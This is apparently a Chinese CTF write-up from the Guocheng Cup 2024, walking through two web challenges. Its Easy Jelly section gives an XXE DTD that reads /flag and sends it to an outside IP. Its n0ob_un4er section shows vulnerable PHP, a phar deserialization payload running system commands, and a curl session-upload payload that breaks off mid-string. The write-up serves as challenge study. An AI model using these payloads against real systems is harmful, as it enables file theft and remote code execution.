









+++
title = "国城杯2024"
slug = "guocheng-cup-2024"
description = ""
date = "2024-12-07T10:41:09"
lastmod = "2024-12-07T10:41:09"
image = ""
license = ""
categories = ["赛题"]
tags = ["phar", "ssrf"]
+++

# 0x01 说在前面

起晚了，但是一看web都是0解

# 0x02 question

## Easy Jelly

先拉到本地再说

```
scp -P 19793 -r C:\Users\baozhongqi\Desktop\jelly_ctf root@27.25.151.48:/opt
```

然后compose是在的直接启动就好了，然后我们反编译代码慢慢和人机一起看

```
docker compose up 
```

打开代码一脸懵逼啊，org.apache.commons.jelly.tags.core.ExprTag#doTag方法



就看到这里能写xml，那么也就是打一个xxe了，那么现在我们就要找哪里调用了这个函数

**Edit->find->find in Files**然后发现到处都是

后来问了花哥，说先看路由就知道了，然后绕过check



发现这个绕过好像啥东西也没有

a.dtd

```dtd
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://27.25.151.48:9999/?x=%file;'>">
%eval;
%exfiltrate;
```

a.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % dtd SYSTEM "http://27.25.151.48:12138/a.dtd">%dtd;]>
<root></root>
```

成功打通，但是不能挂梯子打这道题的时候，我由于各种原因(包括传参本来是)打了快一早上了

最开始我写的dtd也有问题，本地的时候排查出来，他是不能有php的无法解析

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://156.238.233.9:9999/?x=%file;'>">
%eval;
%exfiltrate;
```

这个就是不对的，然后反正很多事情就很难受，感谢出题人**onlyk,悠**两位师傅的帮助和我一起排查，**花哥**直接帮我锁定了路由，我也是知道在控制器找路由的孩子了

```http
GET /jelly?uri=http://27.25.151.48:12138/a.xml HTTP/1.1
Host: 125.70.243.22:31332
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=HpMGJLwxWEVLG4ovTNxQFCnZFxk8UYqxYAnVFdMcEHDzl_QOJBm-KEsvN-yGprkxoNvuTDYRu0rG3XaScSCzrFsxNzMzNzk1OTEyLCAxNzMzNzk1MzQ3LjE4NDE5NTgsIHsidXNlcm5hbWUiOiAiYWRtaW4ifV0
Connection: close


```

## n0ob_un4er

```php
<?php
$SECRET  = `/readsecret`;
include "waf.php";
class User {
    public $role;
    function __construct($role) {
        $this->role = $role;
    }
}
class Admin{
    public $code;
    function __construct($code) {
        $this->code = $code;
    }
    function __destruct() {
        echo "Admin can play everything!";
        eval($this->code);
    }
}
function game($filename) {
    if (!empty($filename)) {
        if (waf($filename) && @copy($filename , "/tmp/tmp.tmp")) {
            echo "Well done!";
        } else {
            echo "Copy failed.";
        }
    } else {
        echo "User can play copy game.";
    }
}
function set_session(){
    global $SECRET;
    $data = serialize(new User("user"));
    $hmac = hash_hmac("sha256", $data, $SECRET);
    setcookie("session-data", sprintf("%s-----%s", $data, $hmac));
}
function check_session() {
    global $SECRET;
    $data = $_COOKIE["session-data"];
    list($data, $hmac) = explode("-----", $data, 2);
    if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac) || !hash_equals(hash_hmac("sha256", $data, $SECRET), $hmac)) {
        die("hacker!");
    }
    $data = unserialize($data);
    if ( $data->role === "user" ){
        game($_GET["filename"]);
    }else if($data->role === "admin"){
        return new Admin($_GET['code']);
    }
    return 0;
}
if (!isset($_COOKIE["session-data"])) {
    set_session();
    highlight_file(__FILE__);
}else{
    highlight_file(__FILE__);
    check_session();
}
```

看了一下代码，首先有`Admin`，可以执行命令，而另一边的文件，一看靶机的cookie就看到这样

```
O:4:"User":1:{s:4:"role";s:4:"user";}-----a25e3bbcbb098d51f5c7f712a21b326299c6b6b040d7a01d2a8a77cc3d13b4250139aae8de40d45c929fb081089ed29dac24f3016f4e74121088b279d59a9d0f
```

先不看绕过hash_equals，打打看

```php
<?php
$SECRET  = `/readsecret`;
include "waf.php";
class User {
    public $role;
    function __construct($role) {
        $this->role = $role;
    }
}
class Admin{
    public $code;
    function __construct($code) {
        $this->code = $code;
    }
    function __destruct() {
        echo "Admin can play everything!";
        eval($this->code);
    }
}
function game($filename) {
    if (!empty($filename)) {
        if (waf($filename) && @copy($filename , "/tmp/tmp.tmp")) {
            echo "Well done!";
        } else {
            echo "Copy failed.";
        }
    } else {
        echo "User can play copy game.";
    }
}
function set_session(){
    global $SECRET;
    $data = serialize(new User("user"));
    $hmac = hash_hmac("sha256", $data, $SECRET);
    setcookie("session-data", sprintf("%s-----%s", $data, $hmac));
}
function check_session() {
    global $SECRET;
    $data = $_COOKIE["session-data"];
    list($data, $hmac) = explode("-----", $data, 2);
    // || !hash_equals(hash_hmac("sha256", $data, $SECRET), $hmac
    if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac)) {
        die("hacker!");
    }
    $data = unserialize($data);
    if ( $data->role === "user" ){
        game($_GET["filename"]);
    }else if($data->role === "admin"){
        return new Admin($_GET['code']);
    }
    return 0;
}
if (!isset($_COOKIE["session-data"])) {
    set_session();
    highlight_file(__FILE__);
}else{
    highlight_file(__FILE__);
    check_session();
}
```

```http
GET /3.php?code=system("whoami"); HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session-data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A4%3A%22role%22%3Bs%3A5%3A%22admin%22%3B%7D-----94846cb0efabd535fb2e222bece2aabc4ca5f98f520b357cb001d2ee00ad8ab1
sec-fetch-user: ?1
Connection: close


```



那么现在绕过这个函数即可，查资料吧那

```
a25e3bbcbb098d51f5c7f712a21b326299c6b6b040d7a01d2a8a77cc3d13b425
```

放提示了不能打这边，得打文件

```
cat /tmp/tmp.tmp

cp "/flag" /dev/stdout
```

后面起个本地测试的环境把waf拿下来

---

php版本为7.2,这个版本就算不开启session，只要上传了文件，并且在cookie传入了PHPSESSID， 也会生成临时的session文件。并且经过我的多次尝试这个玩意copy能利用伪协议包含文件，不过无回显，那么我们可以利用phar文件来打入命令，先写phar文件吧

```php
<?php
class Admin{
    public $code;
}
@unlink("phar.phar");
$phar=new Phar("phar.phar");
$phar->startBuffering();     //开缓冲
$phar->setStub("GIF89a<?php __HALT_COMPILER();?>");
$o=new Admin();
$o->code="system('/readflag');";
$phar->setMetadata($o);
$phar->addFromString("test.txt","test");  // 写入test.txt
$phar->stopBuffering();      //关缓冲
?>
```

然后可以看到我们生成好了之后就是想着怎么搞点可控文件来利用这个phar文件，最开始也说了会创建session文件，我们可以试试把phar文件写进session，那么就是一个比较简单的方法就是把phar文件写成字符串

```shell
cat phar.phar | base64 -w0 | python3 -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"


=52=00=30=00=6C=00=47=00=4F=00=44=00=6C=00=68=00=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=74=00=41=00=41=00=41=00=41=00=41=00=51=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=33=00=41=00=41=00=41=00=41=00=54=00=7A=00=6F=00=31=00=4F=00=69=00=4A=00=42=00=5A=00=47=00=31=00=70=00=62=00=69=00=49=00=36=00=4D=00=54=00=70=00=37=00=63=00=7A=00=6F=00=30=00=4F=00=69=00=4A=00=6A=00=62=00=32=00=52=00=6C=00=49=00=6A=00=74=00=7A=00=4F=00=6A=00=49=00=77=00=4F=00=69=00=4A=00=7A=00=65=00=58=00=4E=00=30=00=5A=00=57=00=30=00=6F=00=4A=00=79=00=39=00=79=00=5A=00=57=00=46=00=6B=00=5A=00=6D=00=78=00=68=00=5A=00=79=00=63=00=70=00=4F=00=79=00=49=00=37=00=66=00=51=00=67=00=41=00=41=00=41=00=42=00=30=00=5A=00=58=00=4E=00=30=00=4C=00=6E=00=52=00=34=00=64=00=41=00=51=00=41=00=41=00=41=00=44=00=52=00=54=00=6C=00=68=00=6E=00=42=00=41=00=41=00=41=00=41=00=41=00=78=00=2B=00=66=00=39=00=69=00=32=00=41=00=51=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=52=00=4C=00=61=00=72=00=44=00=61=00=75=00=76=00=55=00=70=00=71=00=33=00=6E=00=74=00=71=00=44=00=33=00=38=00=47=00=47=00=48=00=48=00=30=00=64=00=54=00=59=00=34=00=41=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00
```

为啥要这样子编码呢，垃圾数据这个事大家肯定知道，但是如果比较方便的删除呢，就是利用这里的base64三次解码来删除，那么我们上的位数也就要满足3^3(27)的倍数，所以补18位我们这里然后上传上去

```shell
curl http://125.70.243.22:31153 -H 'Cookie: PHPSESSID=test' -F 'PHP_SESSION_UPLOAD_PROGRESS=ZZVUZSVmVWQlVRWGRRVkUxM1VGUkJkMUJVV2tSUVZFRjNVRlJSTTFCVVFYZFFWRkpIVUZSQmQxQlVVVEJRVkVGM1VGUmFSRkJVUVhkUVZGazBVRlJCZDFCVVZYZFFWRUYzVUZSUk1GQlVRWGRRVkUwMVVGUkJkMUJVWXpOUVZFRjNVRlJaZUZCVVFYZFFWRkUwVUZSQmQxQlVVWGhRVkVGM1VGUlpNMUJVUVhkUVZGVTBVRlJCZDFCVVRYaFFWRUYzVUZSTk5WQlVRWGRRVkZFMVVGUkJkMUJVVlhoUVZFRjNVRlJWTVZCVVFYZFFWR00wVUZSQmQxQlVWVEZRVkVGM1VGUlZORkJVUVhkUVZFMTNVRlJCZDFCVVVrWlFWRUYzVUZSVmQxQlVRWGRRVkZVd1VGUkJkMUJVVlRKUVZFRjNVRlJSZVZCVVFYZFFWRkpDVUZSQmQxQlVWVEJRVkVGM1VGUlJNVkJVUVhkUVZGVXlVRlJCZDFCVVZYcFFWRUYzVUZSU1ExQlVRWGRRVkZGNlVGUkJkMUJVV2tOUVZFRjNVRlJOTTFCVVFYZFFWRkUxVUZSQmQxQlVVVEJRVkVGM1VGUk5ORkJVUVhkUVZFcERVRlJCZDFCVVVUQlFWRUYzVUZSVmVGQlVRWGRRVkdOM1VGUkJkMUJVWXpCUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVZYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZVZCVVFYZFFWRkV4VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVWQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVRYcFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRlV3VUZSQmQxQlVaRUpRVkVGM1VGUmFSMUJVUVhkUVZFMTRVRlJCZDFCVVVrZFFWRUYzVUZSWk5WQlVRWGRRVkZKQ1VGUkJkMUJVVVhsUVZFRjNVRlJXUWxCVVFYZFFWRkV6VUZSQmQxQlVUWGhRVkVGM1VGUmpkMUJVUVhkUVZGbDVVRlJCZDFCVVdUVlFWRUYzVUZSUk5WQlVRWGRRVkUweVVGUkJkMUJVVWtWUVZFRjNVRlJWTUZCVVFYZFFWR04zVUZSQmQxQlVUVE5RVkVGM1VGUlplbEJVUVhkUVZHUkNVRlJCZDFCVVdrZFFWRUYzVUZSTmQxQlVRWGRRVkZKSFVGUkJkMUJVV1RWUVZFRjNVRlJTUWxCVVFYZFFWRnBDVUZSQmQxQlVXWGxRVkVGM1VGUk5lVkJVUVhkUVZGVjVVRlJCZDFCVVdrUlFWRUYzVUZSUk5WQlVRWGRRVkZwQ1VGUkJkMUJVWXpCUVZFRjNVRlJrUWxCVVFYZFFWRkpIVUZSQmQxQlVXa0pRVkVGM1VGUlJOVkJVUVhkUVZHTXpVRlJCZDFCVVVrZFFWRUYzVUZSWk5WQlVRWGRRVkZKQ1VGUkJkMUJVWkVKUVZFRjNVRlJaTVZCVVFYZFFWRlUwVUZSQmQxQlVVa1pRVkVGM1VGUk5kMUJVUVhkUVZGWkNVRlJCZDFCVVZUTlFWRUYzVUZSTmQxQlVRWGRRVkZwSFVGUkJkMUJVVWtKUVZFRjNVRlJqTlZCVVFYZFFWRTAxVUZSQmQxQlVZelZRVkVGM1VGUldRbEJVUVhkUVZGVXpVRlJCZDFCVVVUSlFWRUYzVUZSYVExQlVRWGRRVkZaQ1VGUkJkMUJVV2tWUVZFRjNVRlJqTkZCVVFYZFFWRmswVUZSQmQxQlVWa0pRVkVGM1VGUmpOVkJVUVhkUVZGbDZVRlJCZDFCVVkzZFFWRUYzVUZSU1IxQlVRWGRRVkdNMVVGUkJkMUJVVVRWUVZFRjNVRlJOTTFCVVFYZFFWRmt5VUZSQmQxQlVWWGhRVkVGM1VGUlpNMUJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVFhkUVZFRjNVRlJXUWxCVVFYZFFWRlUwVUZSQmQxQlVVa1pRVkVGM1VGUk5kMUJVUVhkUVZGSkVVRlJCZDFCVVdrWlFWRUYzVUZSVmVWQlVRWGRRVkUwd1VGUkJkMUJVV1RCUVZFRjNVRlJSZUZCVVFYZFFWRlY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYcFFWRUYzVUZSYVExQlVRWGRRVkZVeFVGUkJkMUJVV2tSUVZFRjNVRlJaTkZCVVFYZFFWRnBHVUZSQmQxQlVVWGxRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVWXpSUVZFRjNVRlJLUTFCVVFYZFFWRmt5VUZSQmQxQlVUVFZRVkVGM1VGUlpOVkJVUVhkUVZFMTVVRlJCZDFCVVVYaFFWRUYzVUZSVmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVUUlFWRUYzVUZSVmVWQlVRWGRRVkZwRVVGUkJkMUJVV1hwUVZFRjNVRlJOZWxCVVFYZFFWRlY1VUZSQmQxQlVZelZRVkVGM1VGUlZlRkJVUVhkUVZGVjZVRlJCZDFCVVNrTlFWRUYzVUZSWmVsQlVRWGRRVkUxM1VGUkJkMUJVVVRCUVZFRjNVRlJhUTFCVVFYZFFWRkY0VUZSQmQxQlVWVFJRVkVGM1VGUlplbEJVUVhkUVZGVXdVRlJCZDFCVVRUQlFWRUYzVUZSak1sQlVRWGRRVkZsNFVGUkJkMUJVVFRCUVZFRjNVRlJWTTFCVVFYZFFWRkpDVUZSQmQxQlVXVFJRVkVGM1VGUmFRMUJVUVhkUVZGbDRVRlJCZDFCVVZURlFWRUYzVUZSS1IxQlVRWGRRVkZrMVVGUkJkMUJVV2tSUVZFRjNVRlJqTVZCVVFYZFFWRmt6VUZ